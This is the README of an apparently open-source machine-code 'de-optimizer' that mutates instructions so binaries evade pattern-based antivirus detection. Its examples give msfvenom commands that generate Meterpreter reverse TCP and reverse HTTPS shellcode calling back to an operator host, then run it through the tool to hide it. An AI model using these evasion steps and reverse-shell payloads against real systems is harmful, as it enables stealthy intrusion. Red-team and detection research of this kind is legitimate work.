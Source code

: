 # De-Optimizer
<div align="center">
  <img src=".github/img/banner.png">
  <br>
  <br>


  [![GitHub All Releases][release-img]][release]
  [![Build][workflow-img]][workflow]
  [![Issues][issues-img]][issues]
  [![Crates][crates-img]][crates]
  ![Docker Pulls][docker-pulls]
  [![License: MIT][license-img]][license]
</div>

[crates]: https://crates.io/crates/deoptimizer
[crates-img]: https://img.shields.io/crates/v/deoptimizer
[release]: https://github.com/EgeBalci/deoptimizer/releases
[release-img]: https://img.shields.io/github/v/release/EgeBalci/deoptimizer
[downloads]: https://github.com/EgeBalci/deoptimizer/releases
[downloads-img]: https://img.shields.io/github/downloads/EgeBalci/deoptimizer/total?logo=github
[issues]: https://github.com/EgeBalci/deoptimizer/issues
[issues-img]: https://img.shields.io/github/issues/EgeBalci/deoptimizer?color=red
[docker-pulls]: https://img.shields.io/docker/pulls/EgeBalci/EgeBalci?logo=docker&label=docker%20pulls
[license]: https://raw.githubusercontent.com/EgeBalci/deoptimizer/master/LICENSE
[license-img]: https://img.shields.io/github/license/EgeBalci/deoptimizer.svg
[google-cloud-shell]: https://console.cloud.google.com/cloudshell/open?git_repo=https://github.com/EgeBalci/deoptimizer&tutorial=README.md
[workflow-img]: https://github.com/EgeBalci/deoptimizer/actions/workflows/main.yml/badge.svg
[workflow]: https://github.com/EgeBalci/deoptimizer/actions/workflows/main.yml
[moneta-ref]: https://github.com/forrest-orr/moneta
[pe-sieve-ref]: https://github.com/hasherezade/pe-sieve
[insomnihack]: https://www.youtube.com/watch?v=Issvbst_89I


This tool is a machine code de-optimizer. By transforming/mutating the machine code instructions to their functional equivalents it makes possible to bypass pattern-based detection mechanisms used by security products.

## Why?
Bypassing security products is a very important part of many offensive security engagements. The majority of the current AV evasion techniques used in various different evasion tools, such as packers, shellcode encoders, and obfuscators, are dependent on the use of self-modifying code running on RWE memory regions. Considering the current state of security products, such evasion attempts are easily detected by memory analysis tools such as [Moneta](https://github.com/forrest-orr/moneta) and [Pe-sieve](https://github.com/hasherezade/pe-sieve). This project introduces a new approach to code obfuscation with the use of machine code de-optimization. It uses certain mathematical approaches, such as arithmetic partitioning, logical inverse, polynomial transformation, and logical partitioning, for transforming/mutating the instructions of the target binary without creating any recognizable patterns. The tool is capable of transforming the instructions of a given binary up to ~95% by using the mentioned de-optimization tricks.

**Watch the presentation for more...**
- [Why So Optimized? - Insomni'hack 2024](https://youtu.be/Issvbst_89I?feature=shared)

## Installation

**Download the pre-built release binaries [HERE](https://github.com/EgeBalci/deoptimizer/releases).**

[![Open in Cloud Shell](.github/img/cloud-shell.png)](google-cloud-shell)

***From Source***
```
cargo install deoptimizer
```

***Docker Install***

[![Docker](http://dockeri.co/image/egee/deoptimizer)](https://hub.docker.com/r/egee/deoptimizer/)

```bash
docker run -it egee/deoptimizer -h
```

## Usage

> [!WARNING]  
> This project is still in the development stage! The available transform gadgets, functions, and command line parameter names may be adjusted, backward compatibility is not guaranteed.

```
Machine code deoptimizer.

Usage: deoptimizer [OPTIONS]

Options:
  -a, --arch <ARCH>                     Target architecture (x86/arm) [default: x86]
  -f, --file <FILE>                     target binary file name [default: ]
  -o, --outfile <OUTFILE>               output file name [default: ]
  -s, --source <SOURCE>                 source assembly file [default: ]
      --syntax <SYNTAX>                 assembler formatter syntax (nasm/masm/intel/gas) [default: keystone]
  -b, --bitness <BITNESS>               bitness of the binary file (16/32/64) [default: 64]
  -A, --addr <ADDR>                     start address in hexadecimal form [default: 0x0000000000000000]
      --skip-offsets <SKIP_OFFSETS>...  File offset range for skipping deoptimization (eg: 0-10 for skipping first ten bytes)
  -c, --cycle <CYCLE>                   total number of deoptimization cycles [default: 1]
  -F, --freq <FREQ>                     deoptimization frequency [default: 0.5]
      --transforms <TRANSFORMS>         allowed transform routines (ap/li/lp/om/rs) [default: ap,li,lp,om,rs]
      --allow-invalid                   allow processing of invalid instructions
  -v, --verbose                         verbose output mode
      --debug                           debug output mode
  -h, --help                            Print help
  -V, --version                         Print version
```

#### Examples

- Generate and de-optimize a 64 bit Metasploit reverse TCP shellcode
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -o shellcode 
deoptimizer -a x86 -b 64 -F 1 -f /tmp/shellcode
```
- Generate and de-optimize a 64 bit Metasploit reverse HTTP(S) shellcode

> [!WARNING]  
> Some shellcodes may cointain string values that needs to be skipped! In such cases the string offsets needs to be specified using the `--skip-offsets` parameter.

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.10 LPORT=8080 -o shellcode 
deoptimizer -a x86 -b 64 -F 1 --skip-offsets 275-287 324-574  -f /tmp/shellcode
```

## Currently Supported Architectures

- ✅ `Supported`
- 🚧 `In progress`
- ❌ `Unsupported`

|  **Architecture** | **32** | **64** |
|:-----------------:|:------:|:------:|
|      **x86**      |   ✅   |   ✅   |
|      **ARM**      |   ❌   |   🚧   |
|     **RISCV**     |   ❌   |   🚧   |

## TO DO 
- [ ] PE file support.
- [ ] ELF file support
- [ ] Mach-O file support.
- [ ] ARM architecture support.
- [ ] RISC5 architecture support.
